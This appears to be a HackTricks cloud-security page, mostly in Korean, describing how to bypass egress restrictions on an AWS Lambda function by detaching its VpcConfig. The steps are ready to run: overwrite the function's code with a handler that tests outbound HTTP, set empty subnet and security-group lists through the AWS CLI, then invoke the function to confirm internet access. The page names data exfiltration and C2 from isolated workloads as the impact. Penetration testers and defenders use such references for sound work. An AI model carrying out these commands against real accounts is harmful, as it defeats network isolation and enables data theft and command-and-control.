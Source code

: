 # AWS Lambda – VPC Egress Bypass by Detaching VpcConfig

{{#include ../../../../banners/hacktricks-training.md}}

빈 VpcConfig(SubnetIds=[], SecurityGroupIds=[])로 구성 업데이트하여 제한된 VPC에서 Lambda 함수를 강제로 분리합니다. 그러면 함수는 Lambda가 관리하는 네트워킹 플레인에서 실행되어 아웃바운드 인터넷 접근을 회복하고 NAT이 없는 사설 VPC 서브넷에서 적용되는 egress 제어를 우회합니다.

## Abusing it

- Pre-reqs: lambda:UpdateFunctionConfiguration on the target function (and lambda:InvokeFunction to validate), plus permissions to update code/handler if changing them.
- Assumptions: The function is currently configured with VpcConfig pointing to private subnets without NAT (so outbound internet is blocked).
- Region: us-east-1

### Steps

0) Prepare a minimal handler that proves outbound HTTP works

cat > net.py <<'PY'
import urllib.request, json

def lambda_handler(event, context):
try:
ip = urllib.request.urlopen('https://checkip.amazonaws.com', timeout=3).read().decode().strip()
return {"egress": True, "ip": ip}
except Exception as e:
return {"egress": False, "err": str(e)}
PY
zip net.zip net.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://net.zip --region $REGION || true
aws lambda update-function-configuration --function-name $TARGET_FN --handler net.lambda_handler --region $REGION || true

1) 현재 VPC 구성 기록(필요 시 나중에 복원하려고)

aws lambda get-function-configuration --function-name $TARGET_FN --query 'VpcConfig' --region $REGION > /tmp/orig-vpc.json
cat /tmp/orig-vpc.json

2) 빈 리스트로 설정하여 VPC 분리

aws lambda update-function-configuration \
--function-name $TARGET_FN \
--vpc-config SubnetIds=[],SecurityGroupIds=[] \
--region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done

3) Invoke 및 아웃바운드 접속 확인

aws lambda invoke --function-name $TARGET_FN /tmp/net-out.json --region $REGION >/dev/null
cat /tmp/net-out.json

(Optional) 원래 VPC 구성 복원

if jq -e '.SubnetIds | length > 0' /tmp/orig-vpc.json >/dev/null; then
SUBS=$(jq -r '.SubnetIds | join(",")' /tmp/orig-vpc.json); SGS=$(jq -r '.SecurityGroupIds | join(",")' /tmp/orig-vpc.json)
aws lambda update-function-configuration --function-name $TARGET_FN --vpc-config SubnetIds=[$SUBS],SecurityGroupIds=[$SGS] --region $REGION
fi

### Impact
- 함수가 제한 없이 아웃바운드 인터넷 접근을 회복하여, 의도적으로 NAT 없이 사설 서브넷에 격리된 워크로드에서 데이터 유출 또는 C2 통신이 가능해집니다.

### Example output (after detaching VpcConfig)

{"egress": true, "ip": "34.x.x.x"}

### Cleanup
- 임시 코드/핸들러 변경을 했다면 복원하세요.
- 선택적으로 위에 저장한 /tmp/orig-vpc.json의 원래 VpcConfig를 복원할 수 있습니다.
{{#include ../../../../banners/hacktricks-training.md}}
